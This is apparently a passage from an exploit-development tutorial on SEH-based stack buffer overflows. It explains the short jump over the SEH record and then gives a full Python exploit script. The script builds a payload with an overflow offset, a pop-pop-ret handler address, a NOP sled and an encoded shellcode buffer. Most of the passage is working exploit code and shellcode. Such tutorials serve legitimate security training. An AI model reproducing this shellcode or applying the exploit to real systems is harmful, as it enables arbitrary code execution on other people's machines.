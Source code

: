 ```python
# payload += b"BOOM"
payload += b"\xeb\x06\x90\x90"
```

Note that even though we say we're jumping over 6 bytes into the code, but in fact, we are jumping over 8 bytes, because the `jmp` instruction itself is 2 bytes, so therefore 2+6=8. Essentially, we are jumping over the SEH record itself after which our shellcode lives.

Our payload visually should now look like this:

![](../../../.gitbook/assets/image%20%281014%29.png)

### Exploit

Let's see the full updated exploit code now:

{% code title="exploit.py" %}
```python
f = open("payload.txt", "wb")

# Offset into the first SEH record
payload = b"A" * 1012

# Address of the next SEH record
# payload += b"BOOM"
payload += b"\xeb\x06\x90\x90"

# Current SEH handler (pop pop ret)
payload += b"\xc8\x12\x94\x63"

# NOP sled for reliability
payload += b"\x90"*10

# shellcode
buf = b""
buf += b"\xba\xbf\xaf\x65\x1b\xd9\xc4\xd9\x74\x24\xf4\x5d\x31"
buf += b"\xc9\xb1\x31\x31\x55\x13\x83\xed\xfc\x03\x55\xb0\x4d"
buf += b"\x90\xe7\x26\x13\x5b\x18\xb6\x74\xd5\xfd\x87\xb4\x81"
buf += b"\x76\xb7\x04\xc1\xdb\x3b\xee\x87\xcf\xc8\x82\x0f\xff"
buf += b"\x79\x28\x76\xce\x7a\x01\x4a\x51\xf8\x58\x9f\xb1\xc1"
buf += b"\x92\xd2\xb0\x06\xce\x1f\xe0\xdf\x84\xb2\x15\x54\xd0"
buf += b"\x0e\x9d\x26\xf4\x16\x42\xfe\xf7\x37\xd5\x75\xae\x97"
buf += b"\xd7\x5a\xda\x91\xcf\xbf\xe7\x68\x7b\x0b\x93\x6a\xad"
buf += b"\x42\x5c\xc0\x90\x6b\xaf\x18\xd4\x4b\x50\x6f\x2c\xa8"
buf += b"\xed\x68\xeb\xd3\x29\xfc\xe8\x73\xb9\xa6\xd4\x82\x6e"
buf += b"\x30\x9e\x88\xdb\x36\xf8\x8c\xda\x9b\x72\xa8\x57\x1a"
buf += b"\x55\x39\x23\x39\x71\x62\xf7\x20\x20\xce\x56\x5c\x32"
buf += b"\xb1\x07\xf8\x38\x5f\x53\x71\x63\x35\xa2\x07\x19\x7b"
buf += b"\xa4\x17\x22\x2b\xcd\x26\xa9\xa4\x8a\xb6\x78\x81\x65"
buf += b"\xfd\x21\xa3\xed\x58\xb0\xf6\x73\x5b\x6e\x34\x8a\xd8"
buf += b"\x9b\xc4\x69\xc0\xe9\xc1\x36\x46\x01\xbb\x27\x23\x25"
buf += b"\x68\x47\x66\x46\xef\xdb\xea\xa7\x8a\x5b\x88\xb7"
```